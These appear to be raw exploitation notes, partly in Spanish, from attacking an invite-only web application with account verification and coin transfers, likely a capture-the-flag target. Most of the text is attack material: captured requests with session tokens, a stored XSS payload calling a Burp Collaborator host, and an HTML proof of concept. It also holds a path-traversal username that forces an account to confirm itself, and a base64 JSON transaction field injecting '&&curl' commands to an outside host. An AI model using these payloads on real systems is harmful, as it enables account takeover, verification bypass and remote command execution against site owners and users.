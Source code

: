 ```POST /signup HTTP/1.1
POST /signup HTTP/1.1
Host: 165.22.122.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/x-www-form-urlencoded
Referer: http://165.22.122.9/invite-only
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
Connection: close
Content-Length: 66

signup_frm_username=broodkiller&signup_frm_password=123456&submit=
```





```
GET HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 27 Jan 2021 15:13:31 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: token=M2Q4OWI3NjgxMGM0YmUxMWEzODdhOTJiNTllYWE3YmEyMTQyZTI5NGZmNTYwZGQxYzM2Y2QzNGNiOGMyOTRlNTM1YmM1MWE1YjY2NDdlY2E2OTU1NWQ3ZjcyN2UwNGFmOWQ4MWMzYzJhMGExNmYzYzYyZDNmOTQ2OGE2OWY4Mzg%3D; expires=Thu, 28-Jan-2021 15:13:31 GMT; Max-Age=86400; path=/
Location: /dashboard
Content-Length: 0
```







```
GET /dashboard HTTP/1.1
Host: 165.22.122.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://165.22.122.9/invite-only
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
cookie:token=M2Q4OWI3NjgxMGM0YmUxMWEzODdhOTJiNTllYWE3YmEyMTQyZTI5NGZmNTYwZGQxYzM2Y2QzNGNiOGMyOTRlNTM1YmM1MWE1YjY2NDdlY2E2OTU1NWQ3ZjcyN2UwNGFmOWQ4MWMzYzJhMGExNmYzYzYyZDNmOTQ2OGE2OWY4Mzg%3D;
Connection: close
```

```
function getVerification(id){
    $.getJSON('/verify/' + id + '.json',function(resp){
        let profile_picture = '/user/' + resp.user.username + '/profile.jpg';
        let confirm_link = '/verify/' + resp.user.hash + '/confirm';
        let deny_link = '/verify/' + resp.id + '/deny';
        let client_name = resp.firstname + '' + resp.lastname;
        $('div.client_name').html(client_name);
        $('img.profile_picture').attr('src',profile_picture);
        $('img.proof_picture').attr('src', resp.proof_img );
        $('a.confirm_link').attr('href',confirm_link);
        $('a.deny_link').attr('href',deny_link);
    }).fail(function(){
        alert('failed');
    });
}
```



```
verify account (GET/POST da igual resultado)

GET 
/verify/da98f05fb0cbd1ace1cab4e04cf1d02b0c955543f9e1c168e8904e36abeee724c213e98384c699a719cbfc6d3abd1dd69ce8af34ce2eee16affc3189a260178a/confirm HTTP/1.1
Host: 165.22.122.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://165.22.122.9/invite-only
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
cookie:token=M2Q4OWI3NjgxMGM0YmUxMWEzODdhOTJiNTllYWE3YmEyMTQyZTI5NGZmNTYwZGQxYzM2Y2QzNGNiOGMyOTRlNTM1YmM1MWE1YjY2NDdlY2E2OTU1NWQ3ZjcyN2UwNGFmOWQ4MWMzYzJhMGExNmYzYzYyZDNmOTQ2OGE2OWY4Mzg%3D;
Connection: close


HTTP/1.1 403 Forbidden
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 27 Jan 2021 15:40:35 GMT
Content-Type: application/json
Connection: close
Content-Length: 48

["You do not have access to view this resource"]
```

new token

MzcxYjZiOWFkMjBhN2RhMzVlYWQzNjUzOTQwOGNhZTZlYjYyYmVmNDQ0YWI3ZTc5ZjE5YTU4OTM2MTVjMjA2MjYwNjllOWI1NWUxOTFiODNlMWM5NTdkYjIwOWMwMmY3ZDcxNWIxN2ZkMWQ0MWQ3YzE4MDE0Yzc4YzNjOTJkNmQ%3D%3D

371b6b9ad20a7da35ead36539408cae6eb62bef444ab7e79f19a5893615c20626069e9b55e191b83e1c957db209c02f7d715b17fd1d41d7c18014c78c3c92d6d



en view-source:http://165.22.122.9/dashboard/profile tengo el user_hash

```
<div class="alert alert-danger text-center">
                            <p>Profile picture changes have temporarily been disabled</p>
                        </div>
                        <input type="hidden" name="user_hash" value="iZjTxek0">
```

```
broodkiller  iZjTxek0

broodkiller1 z2hfb0q1

broodkiller2 mSbvuPk7

broodkiller3 AM7KvOYO
```





```
        var client_name = 
        let client_name = resp.firstname + '' + resp.lastname;
        $('div.client_name').html(client_name);
        
        $('a.deny_link').attr('href','/verify/' + resp.user.hash + '/confirm');
```

test SSRF

```
;</div><script>$.get('http://r1t3lkbki6g041hz0fbpcjkpggm9ay.burpcollaborator.net');</script>
```





```
SSRF para verify

<html>
<head><script src="https://code.jquery.com/jquery-1.11.3.js"></script></head>

<body>
<input type="text" id="n" value="john">
<input type="text" id="a" value=";</div><script>$.get('http://localhost/verify/iZjTxek0/confirm');</script>">
<script>
$(function () {
	let confirm_link = '/verify/' + resp.user.hash + '/confirm';
	let deny_link = '/verify/' + resp.id + '/deny';
	let client_name = $("#n").val() + '' + $("#a").val();
	$('div.client_name').html(client_name);
	$('a.confirm_link').attr('href',confirm_link);
	$('a.deny_link').attr('href',deny_link);
});
</script>
<div class='client_name'></div>
<a class='confirm_link' href="" onclick='alert("confirm")'>confirm</a>
<a class='deny_link' href="" onclick='alert("deny")'>deny</a>
</body>
</html>
```

### poc js

```
<html>
<head><script src="https://code.jquery.com/jquery-1.11.3.js"></script></head>
<body>
<input type="text" id="n" value="{{curl http://2.r1t3lkbki6g041hz0fbpcjkpggm9ay.burpcollaborator.net}}">
<input type="text" id="a" value=";$('a.deny_link').attr('href','/verify/mSbvuPk7/confirm');</script>">
<script>
$(function () {
	let confirm_link = '/verify/' + 'y' + '/confirm';
	let deny_link = '/verify/' + 'z' + '/deny';
	let client_name = $("#n").val() + '' + $("#a").val();
	$('div.client_name').html(client_name);
	$('a.confirm_link').attr('href',confirm_link);
	$('a.deny_link').attr('href',deny_link);
});
</script>
<div class='client_name'></div>
<a class='confirm_link' href="" onclick='alert("confirm")'>confirm</a>
<a class='deny_link' href="" onclick='alert("deny")'>deny</a>
</body>
</html>
```





### confirmar account payload, modificando username

```
POST /dashboard/profile HTTP/1.1
Host: 165.22.122.9
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://165.22.122.9
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://165.22.122.9/dashboard/profile
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
Cookie: token=NjQ3NzQ4YzVjZGEyZTRiNzA4ZDkxY2RhM2U2NzE0OGMyYzk3OTRlNDQxMGJmZjM1NDQ4NTU3YmQ0YzE4MGJlZGE0MWRiYjBiNmNjOGI1YWExMmFmNWIwYjA5YzgyNzZkMjJkNTg0ODZjYTY5YjY5NTVkM2Y2Nzg1MmFhMDliZmQ%3D
Connection: close

user_hash=mSbvuPk7&update_frm_username=../verify/mSbvuPk7/confirm?a
```





envio de coins x wallet

0.0001

```
0.0001
{"data":"{"txn_id":"51c5f3a2f5044afa92f441c4ed90d8a8","txn_server":"node1"}","challenge":"59391ef7887dfb485f9029eaf63f73e2"}
```



5
eyJkYXRhIjoiZXlKMGVHNWZhV1FpT2lKaE1UQmxaamsxWXpWaFpEZzNabUl3T0RjNVptWTFaR0V3WVROaFlXSXdZU0lzSW5SNGJsOXpaWEoyWlhJaU9pSnViMlJsTVNKOSIsImNoYWxsZW5nZSI6ImUzMjEwYTNiN2Q3MGM1N2Q4ODE4ZmVmZTBkNTdiNTM4In0





eyJkYXRhIjoiZXlKMGVHNWZhV1FpT2lKaVl6STBNamsyTmpsbE5XUmhNVGMwWmpCbFlqUmlNbUV6TlRZME0yUXlaQ0lzSW5SNGJsOXpaWEoyWlhJaU9pSnViMlJsTVNKOSIsImNoYWxsZW5nZSI6IicifQ
{"data":"{"txn_id":"2a8403ffcd2001e4cf67eecac842b0da","txn_server":"node1"}","challenge":"16c7ddb46913917a3b8fc7f73e71d471"}
{"data":"{"txn_id":"140bb4944b0e0d8e4ed8f4a9a65a898e","txn_server":"node1"}","challenge":"48841875a05ccedfdda96f8ef96f8f02"}
{"data":"{"txn_id":"46fbaa7f6eea9b40c61510a012583ef0","txn_server":"node1"}","challenge":"ebdd13d4692f6fe260602dd0bf24babd"}
{"data":"{"txn_id":"15ed604de2ef3b0ebcff8e9fa103309c","txn_server":"node1"}","challenge":"3266fba14ff6ad901ce0a9b068fb41ac"}

{"data":"eyJ0eG5faWQiOiJvcDI0Mjk2NjlyNXFuMTc0czBybzRvMm4zNTY0M3EycSYmY3VybCBodHRwOi8vZ2kyczI5czl6dnhwbHF5b2g0c2V0ODFleDUzNXJ1LmJ1cnBjb2xsYWJvcmF0b3IubmV0IiwidHhuX3NlcnZlciI6Im5vZGUyJiZjdXJsIGh0dHA6Ly9naTJzMjlzOXp2eHBscXlvaDRzZXQ4MWV4NTM1cnUuYnVycGNvbGxhYm9yYXRvci5uZXQifQ"}